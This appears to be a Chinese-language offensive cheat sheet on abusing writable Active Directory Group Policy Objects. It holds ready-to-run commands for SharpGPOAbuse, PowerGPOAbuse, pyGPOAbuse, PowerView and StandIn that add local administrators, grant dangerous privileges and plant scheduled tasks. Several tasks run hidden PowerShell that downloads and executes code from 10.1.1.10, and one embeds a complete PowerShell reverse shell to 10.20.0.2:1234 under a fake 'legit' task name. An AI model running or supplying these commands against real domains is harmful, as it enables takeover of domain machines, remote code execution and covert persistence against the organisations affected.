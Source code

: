 	GPO 的创建者被自动授予显式编辑设置、删除、修改安全性，表现为 CreateChild、DeleteChild、Self、WriteProperty、DeleteTree、Delete、GenericRead、WriteDacl、WriteOwner
	GPO 优先级：组织单位 > 域 > 站点 > 本地
 ### 查找易受攻击的 GPO
	查看具有写入权限的 GPLink
	>Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs |  Where-Object {($_.ActiveDirectoryRights.ToString() -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner")}
 ### SharpGPOAbuse
	构建和配置 SharpGPOAbuse
	>git clone https://github.com/FSecureLABS/SharpGPOAbuse
	>Install-Package CommandLineParser -Version 1.9.3.15
	>ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll
	添加用户权限
	>.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
	添加本地管理员
	>.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
	配置用户或计算机登录脚本
	>.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
	配置计算机或用户即时任务
	旨在每次 GPO 刷新“运行一次”，而不是每个系统运行一次
	>.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
	>.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
 ### PowerGPOAbuse
  	https://github.com/rootSySdk/PowerGPOAbuse
	PS> . .\PowerGPOAbuse.ps1
	添加本地管理员 
	PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
	分配新的权限 
	PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'
	添加新的计算机/用户脚本
	PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'
	创建一个即时任务
	PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
 ### pyGPOAbuse
  	>git clone https://github.com/Hackndo/pyGPOAbuse
	将 john 用户添加到本地管理员组（密码：H4x00r123..）
	>./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012"
	反弹shell
	>./pygpoabuse.py DOMAIN/user -hashes lm:nt -gpo-id "12345677-ABCD-9876-ABCD-123456789012" \ 
	    -powershell \ 
	    -command "\$client = New-Object System.Net.Sockets.TCPClient('10.20.0.2',1234);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};\$client.Close()" \ 
	    -taskname "Completely Legit Task" \
	    -description "Dis is legit, pliz no delete" \ 
	    -user
 ### PowerView
  	>Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
	>New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments '-NoP -NonI -W Hidden -Enc AAAAAAA...' -Force
 ### StandIn
  	>StandIn.exe --gpo --filter Shards --localadmin user002
	>StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"
	>StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
